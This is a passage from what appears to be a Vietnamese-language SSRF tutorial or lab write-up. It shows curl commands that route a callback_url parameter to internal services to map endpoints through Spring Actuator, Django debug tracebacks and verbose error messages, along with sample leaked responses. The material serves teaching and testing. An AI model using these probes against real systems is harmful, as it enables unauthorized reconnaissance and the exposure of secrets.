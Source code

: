 ```bash
# Response shows ALL endpoints:
{
  "contexts": {
    "application": {
      "mappings": {
        "dispatcherServlets": {
          "dispatcherServlet": [
            {
              "handler": "UserController.getAllUsers()",
              "predicate": "{GET /api/users}"
            },
            {
              "handler": "UserController.deleteUser(Long)",
              "predicate": "{DELETE /api/users/delete/{id}}"
            }
          ]
        }
      }
    }
  }
}
```

**→ Tất cả endpoints được leak qua Actuator!** 🚨

#### **Technique 3: Django Debug Mode**

```bash
# If Django DEBUG=True
curl "...?callback_url=http://product-service:8082/api/invalid-endpoint"

# Response shows full traceback with:
- All installed apps
- All URL patterns
- Database models
- Settings (sometimes with secrets!)
```

#### **Technique 4: Error-Based Information Disclosure**

```bash
# Send invalid requests to trigger errors
curl "...?callback_url=http://user-service:8081/api/users/abc"

# Error response may show:
{
  "error": "Invalid user ID format",
  "path": "/api/users/abc",
  "available_endpoints": [
    "/api/users",
    "/api/users/{id}",
    "/api/users/delete/{id}"
  ]
}
```

---